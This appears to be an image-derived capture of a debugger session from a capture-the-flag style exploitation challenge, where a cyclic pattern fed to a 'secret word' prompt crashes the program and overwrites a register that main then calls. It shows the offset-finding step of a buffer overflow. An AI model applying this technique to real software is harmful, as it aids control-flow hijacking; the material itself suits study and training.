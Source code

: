```bash
                ▐▓█▓█▓▓▓▓▓██████████████████████████▓▓▓▓▓█▓█▓
                 ██▓█╣▓▓▓█▌  ████▀████▓▓████▀████  ▐█▓▓▓▓█╢██
                 ██▓█▓▓▓▓▓██▄████ ▐███▓▓███▄ ████▄█▓▓▓▓▓██▓██
                  ▀█▌▓▓▓▓▓▓▓╢╢█████▓██▓▓██▓█████╢╢▓▓▓▓▓▓▓██▀
                   `█▓▓▓▓▓▓▓██████████▓▓██████████╢▓▓▓▓▓▓█
                    `█▓▓▓▓█▓▓▓▓██╢╢▓██▓▓██╢╢╢██╣▓▓▓█▓▓▓▓█
                      ▀█▓▓▓▓▓█╣╢▓▓████▓▓███╢▓▓╢██▓▓▓▓▓█▀
                       █▓▓▓▓█████▓▓▓██╣▓██▓╢▓█████▓▓▓▓█
                       ▐█▓▓▓▓╣█▄ ▌▀▀▀▀██▀█▀▀▌ ,█╫▓▓▓▓█▌
                        ██▓▓▓▓▓█▌▐       ▐ .═▐█╣▓▓▓▓██
                         ██▓▓▓▓▓█▄  ▌ ▐` [ j▄█╣▓▓▓▓█▀
                          ▀█▓▓▓▓╢██▄L ¬  [▄██╢▓▓▓██`
                            ▀█▓▓▓▓╢███▄▄███╢▓▓▓▓█▀
                              █▓▓▓▓▓▓╣╣╢▓▓▓▓▓▓▓▌
                               █▓▓▓▓▓▓▓▓▓▓▓▓▓▓█
                                ██▓▓▓▓▓▓▓▓▓▓██
                                 `▀▀▀▀``▀▀▀▀
[Nex'zaltar] Only the one who can give me the secret word can survive.
             Enter the secret word: aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
[Nex'zaltar] Did you think it would be so easy?

Program received signal SIGSEGV, Segmentation fault.
0x0000000000401220 in main ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
──────────[ REGISTERS / show-flags off / show-compact-regs off ]──────────
*RAX  0x616161616161616a ('jaaaaaaa')
 RBX  0x0
*RCX  0xc00
*RDX  0x0
*RDI  0x7ffff7fa5990 (_IO_stdfile_1_lock) ◂— 0x0
*RSI  0x0
 R8   0x0
*R9   0xffffffffffffff80
*R10  0x7ffff7f523c0 (_nl_C_LC_CTYPE_class+256) ◂— 0x2000200020002
*R11  0x246
 R12  0x401080 (_start) ◂— xor ebp, ebp
 R13  0x0
 R14  0x0
 R15  0x0
 RBP  0x7fffffffdf10 ◂— 'kaaaaaaalaaaaaaamaaa'
*RSP  0x7fffffffdec0 ◂— 'aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa'
*RIP  0x401220 (main+171) ◂— call rax
────────────[ DISASM / x86-64 / set emulate on ]────────────
 ► 0x401220 <main+171>     call   rax                           <0x616161616161616a>
 
   0x401222 <main+173>     mov    edi, 0
   0x401227 <main+178>     call   exit@plt                      <exit@plt>
 
   0x40122c <escape>       push   rbp
   0x40122d <escape+1>     mov    rbp, rsp
   0x401230 <escape+4>     lea    rdi, [rip + 0x1e31]
   0x401237 <escape+11>    call   puts@plt                      <puts@plt>
 
   0x40123c <escape+16>    lea    rdi, [rip + 0x1e4d]
   0x401243 <escape+23>    call   puts@plt                      <puts@plt>
 
   0x401248 <escape+28>    mov    edi, 0
   0x40124d <escape+33>    call   exit@plt                      <exit@plt>
───────────────────────────────[ STACK ]────────────────────────────────
00:0000│ rsp 0x7fffffffdec0 ◂— 'aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa'
```